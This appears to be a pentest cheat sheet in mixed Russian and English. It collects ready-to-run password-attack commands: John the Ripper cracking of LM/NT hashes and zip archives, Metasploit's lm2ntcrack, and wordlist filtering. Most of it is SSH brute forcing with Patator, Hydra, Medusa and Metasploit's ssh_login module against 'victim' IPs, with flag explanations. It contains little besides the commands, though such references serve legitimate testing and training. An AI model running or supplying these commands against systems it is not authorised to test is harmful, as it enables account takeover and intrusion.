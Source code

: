 # Linux Hashes

# Windows Hashes

## LM hash brute

`john --test` - benchmark

`john sam.txt`

`john --show sam.txt` - вывод результатов

`cat ~/.john/john.pot` 

## NT hash brute

`john --format=nt sam.txt`

## Cracking NT with a cracked LM

`/usr/share/metasploit-framework/tools/password/lm2ntcrack.rb -t NTLM -p INTERNET12 -a 1274D7B32A9ABDDA01A5067FE9FBB32B`

`-p` - cracked LM hash
`-a` - not cracked NTLM hash


# Smb brute

## Password Guessing (подбор пароля пользователя)

Отбираем пароли по текущей парольной политике.
By default in Server 2016, passwords must meet the following minimum requirements:

1. Passwords must not contain the user's account name or parts of the user's full name that exceed two consecutive characters.
2. Passwords must be at least seven characters in length.
3. Passwords must contain characters from three of the following four categories:

a. English uppercase characters (A through Z)
b. English lowercase characters (a through z)
c. Base 10 digits (0 through 9)
d. Non-alphabetic characters (for example, !, $, #, %)

`cat ./rockyou.txt | sudo pw-inspector -m 7 -n -u -l -p -c 3 -o ws2016default.lst`

## Password Spray (проверка одного пароля для многих пользователей)
This is a good technique when you have a large list of user accounts and you have to be careful of login policies locking out the account after too many failed password guesses.

## Hydra 
Если хочется графической оболочки _xHydra_. Необходимо указать:
- Target -> Target(s)
- Target -> Protocol
- Passwords -> Username
- Passwords -> Password (PasswordList)
- Passwords -> Try login as password 
- Passwords -> Try empty passwords
- Start -> Start

# SSH Brute

## Patator
Для подбора пароля средствами Patator используем команду:

`patator ssh_login host=192.168.60.50 user=test password=FILE0 0=/root/wordlist -x ignore:mesg=’Authentication failed’`

где:
- ssh_login — необходимый модуль
- host – наша цель
- user – логин пользователя, к которому подбирается пароль или файл с логинами для множественного подбора
- password – словарь с паролями
- `-x ignore:mesg=’Authentication failed’` — команда не выводить на экран строку, имеющую данное сообщение. Параметр фильтрации подбирается индивидуально.

## Hydra
Для подбора пароля используя Hydra выполним команду:

`hydra -V -f -t 4 -l bestadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.81`

где:
- -V – показывать пару логин+пароль во время перебора
- -f – остановка как только будет найден пароль для указанного логина
- -P – путь до словаря с паролями
- ssh://192.168.60.50 – указание сервиса и IP-адрес жертвы

## Medusa
Для подбора пароля с использованием Medusa выполним команду:

`medusa -h 192.168.60.50 -u test -P /root/wordlist -M ssh -f -v 6`

где:
- -h – IP-адрес жертвы
- -u – логин
- -P – путь к словарю
- -M – выбор модуля
- -f – остановка после нахождения валидной пары логин/пароль
- -v – настройка отображения сообщений на экране во время процесса подбора

## Metasploit
Произведем поиск инструмента для проведения brute-force атаки по SSH:
`search ssh_login`

Задействуем модуль:

`use auxiliary/scanner/ssh/ssh_login`

Для просмотра необходимых параметров, воспользуемся командой show options. Для нас это:
- rhosts – IP-адрес жертвы
- rport – порт
- username – логин SSH
- userpass_file – путь до словаря
- stop_on_success – остановка, как только найдется пара логин/пароль
- threads – количество потоков

Указание необходимых параметров производится через команду "set".

`set rhosts 192.168.60.50`

`set username test`

`set userpass_file /root/wordlist`

`set stop_on_success yes`

`set threads 4`

`set rport 22`

# Brute zip

1. Извлекает хеш пароля в формате, который подходит для John the Ripper.

	`zip2john <target.zip> > hash`
	
2. Попытка обращения хеша

	`john hash`



